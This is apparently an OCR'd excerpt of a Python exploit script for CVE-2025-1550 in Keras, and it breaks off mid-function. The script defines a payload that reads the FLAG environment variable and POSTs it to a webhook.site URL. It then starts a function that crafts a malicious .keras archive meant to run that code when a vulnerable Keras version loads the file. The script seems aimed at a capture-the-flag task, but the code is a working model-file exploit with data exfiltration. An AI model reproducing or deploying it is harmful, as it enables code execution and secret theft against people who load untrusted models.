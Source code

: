 ```python

WEBHOOK_URL = "https://webhook.site/YOUR_WEBHOOK_UUID" # e.g., "https://webhook.site/abcdef12-3456-7890-abcd-ef1234567890"

  

# Define the malicious payload to grab the FLAG environment variable

# and exfiltrate it to the specified webhook URL.

MALICIOUS_CODE = f"""

import os

import urllib.request

import json

  

flag_value = os.environ.get('FLAG', 'FLAG_NOT_FOUND')

exfil_data = {{'flag': flag_value}}

  

try:

# Prepare the request

req = urllib.request.Request(

'{WEBHOOK_URL}',

data=json.dumps(exfil_data).encode('utf-8'),

headers={{'Content-Type': 'application/json'}},

method='POST'

)

# Send the request

with urllib.request.urlopen(req, timeout=5) as response:

print(f"[*] Exfiltration attempt to webhook. Status: {{response.status}}")

except Exception as e:

print(f"[!] Error during flag exfiltration: {{e}}")

"""

  

def create_malicious_keras_archive(output_filename="malicious_model.keras"):

"""

Creates a malicious .keras archive designed to exploit CVE-2025-1550.

This function crafts a .keras file that, when loaded by a vulnerable Keras version,
```